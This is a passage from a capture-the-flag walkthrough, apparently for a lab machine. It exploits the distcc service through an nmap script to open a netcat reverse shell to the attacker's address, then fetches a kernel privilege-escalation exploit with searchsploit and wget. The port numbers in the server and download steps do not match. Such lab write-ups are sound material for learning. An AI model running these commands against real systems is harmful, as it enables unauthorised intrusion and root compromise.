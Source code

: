 ```text
nc -nlvp 4444
```

Then, use the nmap script to send a reverse shell back to the attack machine.

```text
nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -nv 10.10.14.6 4444 -e /bin/bash'"
```

![](../images/max/722/1*XGycXseoW7pDQLJnfN6PwA.png)

The shell connects back to our attack machine and we have a non privileged shell!

![](../images/max/692/1*a6yMG05f7RV-LU2091HSBQ.png)

We’ll need to escalate privileges. Google the OS version — Linux 2.6.24 to see if it is vulnerable to any exploits. I tried [CVE 2016–5195](https://www.exploit-db.com/exploits/40839) and [CVE 2008–0600](https://www.exploit-db.com/exploits/5093), but they didn’t work.

Let’s try [CVE 2009–1185](https://www.exploit-db.com/exploits/8572). Download the exploit from searchsploit.

```text
searchsploit -m 8572.c
```

Start up a server on your attack machine.

```text
python -m SimpleHTTPServer 9005
```

In the target machine download the exploit file.

```text
wget http://10.10.14.6:5555/8572.c
```

Compile the exploit.
